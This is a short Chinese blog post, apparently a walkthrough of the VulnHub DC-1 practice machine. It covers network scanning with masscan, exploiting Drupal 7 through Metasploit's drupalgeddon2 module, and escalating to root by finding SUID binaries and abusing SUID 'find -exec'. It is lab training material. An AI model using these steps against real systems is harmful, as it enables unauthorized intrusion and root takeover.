 ```yaml
---
layout: post
title: 'linux提权'
subtitle: 'SUID提权'
date: 2021-06-05
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: jekyll 前端开发 设计
---
```

### linux SUID提权
> 1.下载环境
      https://www.vulnhub.com/entry/dc-1-1,292/

      用vm虚拟机打开，运行，并设置桥接
> 2.用masscan扫描与主机同一内网的80端口，查找网站地址
      ![](https://1024861435.github.io/assets/img/suid1.png)
      发现有三个主机开启80端口，.1肯定路由器，于是用网站访问192.168.1.137发现该网站
      ![](https://1024861435.github.io/assets/img/suid2.png)
      发现访问到该网站，得到该服务器IP地址
> 3.用kali的masscan查询该网站信息
      ![](https://1024861435.github.io/assets/img/suid3.png)
      发现是durpal 7框架
> 4.开启msfconselo并search durpal
      ![](https://1024861435.github.io/assets/img/suid4.png)
      使用模块exploit/unix/webapp/drupal_drupalgeddon2并执行shell
      ![](https://1024861435.github.io/assets/img/suid5.png)
> 5.查找符合suid条件的文件
      find / -user root -perm -4000 -print 2>/dev/null
      find / -perm -u=s -type f 2>/dev/null
      find / -user root -perm -4000 -exec ls -ldb {} \;
      ![](https://1024861435.github.io/assets/img/suid6.png)
> 6.如果find以SUID权限运行，所有通过find执行的命令都会以root权限运行。
      touch test
      find test -exec whoami \;
      ![](https://1024861435.github.io/assets/img/suid7.png)
> 7.用root权限访问root并得到flag文件
      ![](https://1024861435.github.io/assets/img/suid8.png)
      
